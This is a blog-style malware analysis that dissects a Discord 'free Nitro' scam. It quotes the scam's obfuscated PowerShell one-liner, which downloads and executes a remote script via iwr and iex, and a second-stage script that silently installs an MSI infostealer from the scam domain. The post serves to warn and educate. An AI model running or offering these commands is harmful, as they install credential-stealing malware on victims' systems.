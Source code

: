 ```yaml
---
title: 'Analysis of a Discord Nitro Scam'
date: 2025-08-05
description: "Analyzing and dissecting a Discord Nitro Scam and understanding how its malware installer works"
author: 'ABUCKY0'
banner: /blog/analysis-of-a-discord-nitro-scam.png
unlisted: false
tags: ["discord", "nitro", "scam", "analysis", "malware"]
---
```

## Introduction
I'd like to start this out by saying that this is not a guide on how to run the scam, but rather an analysis of how it works and why you should never run it. Please do not attack anyone sending this scam, it's likely they themselves were scammed into running this one or another scam and are not aware of the consequences of running it.

> [!WARNING]
> The code snippets below are malicious. **Do not run them**. I do not control the domain and the infostealer this scam downloads can and will still steal your information.

> [!NOTE]
> The domain referenced below is offline as of writing this blog post, however it's still not recommended to run the scripts below in the case that it is reenabled.
## The Scam Message
I first encountered this scam on Discord in a server I moderate. The scammer sent a message with the following text:
```md
Hey, someone in a private server just shared
this Nitro method.
Apparently you can activate free Nitro by
running this in CMD:

`​powershell -command "if (($Mode = 'app') -and ($ActivateNitro = 'nitro' + 'features.' + $Mode + '/dev')) { $chart = iwr $ActivateNitro -UseBasicParsing; iex $chart.Content }" ​`

I haven't tested it myself yet, but a few people
said it worked for them.
Thought I'd send it to you before it gets
removed or patched.
```

You need a bit of knowlege with powershell to notice anything weird about this. The first thing a seasoned programmer might notice is that in the if statement comparison, it uses only one equal sign. `if (($Mode = 'app')` isn't checking if `$Mode` is equal to `'app'`, it's setting $Mode to app. Powershell comparison operators are like `-eq` for equal, `-ne` for not equal, and similar. You can see all of them on [https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_operators?view=powershell-7.5#assignment-operators](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_operators?view=powershell-7.5#assignment-operators).

The second portion of that if statement is doing the same thing. `$ActivateNitro` is being set to `'nitro' + 'features.' + 'app' + '/dev'`. The `-and` in the middle is truthy, meaning it always evaluates to `true`.

`iwr` or `Invoke-WebRequest` is downloading the contents of nitrofeatures|.app/dev. Then `iex` or `Invoke-Expression` executes it's input as a powershell command.

So the whole if statement is doing is:
- Setting `$Mode` to "app"
- Setting `$ActivateNitro` to nitrofeatures|.app/dev (vertical bar added to prevent a link being made)
- Downloading the contents of nitrofeatures|.app/dev into a variable in memory.
- Executing the downloaded powershell script. 


# The Hosted Powershell Script
This one is a bit more straightforward and obvious. Certain portions have been commented out and edited to prevent link embedding.

```powershell
$targetDir = "$env:APPDATA\Svservices"
if (-not (Test-Path $targetDir)) {
    New-Item -ItemType Directory -Path $targetDir -Force | Out-Null
}
$filename = "new2.msi"
$url = #"[https://]nitrofeatures[.]app/$fileName"
$fullPath = "$targetDir\$fileName"

Invoke-WebRequest $url -OutFile $fullPath

Push-Location $targetDir
Start-Process "msiexec.exe" -ArgumentList "/i `"$fullPath`" /qn /norestart" -Wait
Pop-Location

Write-Host "Access to Nitro functionality is temporarily paused due to load. Please try again in 48 hours." -ForegroundColor Yellow
```

I'll quickly go line by line below:

- `$targetDir = "$env:APPDATA\Svservices"` - Creates a variable that holds the name of the directory that the malware is downloaded to.
- ```ps1
  if (-not (Test-Path $targetDir)) {
      New-Item -ItemType Directory -Path $targetDir -Force | Out-Null
  }
  ```
  Checks if the Svservices folder has already been created. If it hasn't, create it. Pipe all output to the void (Out-Null doesn't print it to console).
- ```ps1
  $filename = "new2.msi"
  $url = https://nitrofeatures[.]app/$fileName"
  $fullPath = "$targetDir\$fileName"
  ```
  `$filename` stores the name of the malicious msi file. `$url` stores the download url for the msi file. `$fullPath` stores the download path for the msi executable.
- ```ps1
  Invoke-WebRequest $url -OutFile $fullPath
  ```
  Downloads the msi executable to the Svservices folder. 

- Now the next three lines are the interesting ones. Up until I encountered this malware, I had never seen `Push-Location` and `Pop-Location`. Basically these work as a stack. You push the new location onto the stack (In this case the malware's storage directory), which then changes your current working directory to the one you pushed. 
  ```ps1
  Push-Location $targetDir
  Start-Process "msiexec.exe" -ArgumentList "/i `"$fullPath`" /qn /norestart" -Wait
  Pop-Location
  ```
  `msiexec.exe` installs MSI files. Basically the msiexec command is installing the malware, without a gui or text output, and then doesn't restart the computer.  
  `Pop-Location` returns the current working directory back to the place it was when you opened the Powershell window.
- And then of course, last but not least, it tells the user that their 'free nitro' couldn't be setup since there's no actual free nitro being done. 
  ```ps1
  Write-Host "Access to Nitro functionality is temporarily paused due to load. Please try again in 48 hours." -ForegroundColor Yellow
  ```

# The malware itself
During analyzing the above, I used a https://tria.ge vm. You can read the full report on [https://tria.ge/250805-vmsmlsyjw6/behavioral2](https://tria.ge/250805-vmsmlsyjw6/behavioral2), but tl;dr it's an infostealer. More specifically, it's a Lumma infostealer. According to triage, it tried to look at local email clients, indexed installed software on teh system, and looked to see if there were any other drives. I presume it can also steal discord tokens and such which allows this malware to spread. 


